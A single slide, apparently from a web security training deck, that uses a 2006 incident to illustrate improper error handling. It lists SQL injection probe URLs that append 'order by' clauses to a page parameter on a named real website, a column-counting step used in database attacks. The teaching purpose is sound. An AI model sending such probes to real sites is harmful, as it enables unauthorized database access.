

# Improper Error Handling

IncredibleIndia.org SQL Injection (WHID 2006-27)

Trial 2:
http://www.incredibleindia.org/newsite/cms_Page.asp?PageID=828 order by 1--
http://www.incredibleindia.org/newsite/cms_Page.asp?PageID=828 order by 2--
http://www.incredibleindia.org/newsite/cms_Page.asp?PageID=828 order by 3--
No error